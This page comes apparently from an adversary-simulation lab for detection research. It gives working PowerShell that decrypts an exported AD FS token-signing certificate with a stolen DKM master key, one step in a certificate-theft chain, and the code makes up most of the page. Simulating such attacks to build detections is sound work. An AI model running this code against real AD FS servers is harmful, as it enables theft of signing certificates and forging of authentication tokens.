 # Decrypt Active Directory Federation Services (AD FS) Certificates

After [exporting AD FS certificates](exportADFSCertificatesEncryptedFormat.md) and [obtaining the AD FS DKM master key](exportADFSDKMMasterKeyFromDC.md), we can use the master key value to derive a symmetric key and decrypt the AD FS certificates.

## Preconditions
* Endpoint: ADFS01 or WORKSTATION6
    * Even when this step would happen outside of the organization, we can use the same PowerShell session on one of the endpoints where we [exported AD FS certificates](exportADFSCertificatesEncryptedFormat.md) and [obtained the AD FS DKM master key](exportADFSDKMMasterKeyFromDC.md) from to go through the simulation steps.
    * [AD FS DKM Master Key](exportADFSDKMMasterKeyFromDC.md)
        * Use the output from this step and pass it to the PowerShell snippet below as the variable `$key`.
    * [AD FS Certificate (Encrypted format)](exportADFSCertificatesEncryptedFormat.md)
        * Use the output from this step and pass it to the PowerShell snippet below as the variable `$encPfx`.

## Decrypt Certificate

```PowerShell
$encPfxBytes=[System.Convert]::FromBase64String($encPfx)
$guid=        $encPfxBytes[8..25]  # 18 bytes
$KDF_oid=     $encPfxBytes[26..36] # 11 bytes
$MAC_oid=     $encPfxBytes[37..47] # 11 byte
$enc_oid=     $encPfxBytes[48..58] # 11 bytes
$nonce=       $encPfxBytes[59..92] # 34 bytes
$iv=          $encPfxBytes[93..110] # 18 bytes
$ciphertext = $encPfxBytes[115..$($encPfxBytes.Length-33)]
$cipherMAC =  $encPfxBytes[$($encPfxBytes.Length-32)..$($encPfxBytes.Length)]

# Create the label
$label = $enc_oid + $MAC_oid

# Derive the decryption key using (almost) standard NIST SP 800-108. The last bit array should be the size of the key in bits, but MS is using bytes (?)
# As the key size is only 16 bytes (128 bits), no need to loop.
$hmac = New-Object System.Security.Cryptography.HMACSHA256 -ArgumentList @(,$key)
$hmacOutput = $hmac.ComputeHash( @(0x00,0x00,0x00,0x01) + $label + @(0x00) + $nonce[2..33] + @(0x00,0x00,0x00,0x30) )
$decryptionKey = $hmacOutput[0..15]
Write-Verbose "Decryption key:"
Write-Verbose "$($decryptionKey|Format-Hex)"
# Create a decryptor and decrypt
$Crypto = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
$Crypto.Mode="CBC"
$Crypto.KeySize = 128
$Crypto.BlockSize = 128
$Crypto.Padding = "None"
$Crypto.Key = $decryptionKey
$Crypto.IV = $iv[2..17]
$decryptor = $Crypto.CreateDecryptor()

# Create a memory stream and write the cipher text to it through CryptoStream
$ms = New-Object System.IO.MemoryStream
$cs = New-Object System.Security.Cryptography.CryptoStream($ms,$decryptor,[System.Security.Cryptography.CryptoStreamMode]::Write)
$cs.Write($ciphertext,0,$ciphertext.Count)
$cs.Close()
$cs.Dispose()

# Get the results
$pfx = $ms.ToArray()
$ms.Close()
$ms.Dispose()
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_27_decrypt_certificate.png)

## Output

Use the variable `$pfx` (cipher text) for the next step where we [export the AD FS certificate as a PFX file](exportADFSCertificatesAsPfxFiles.md).

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)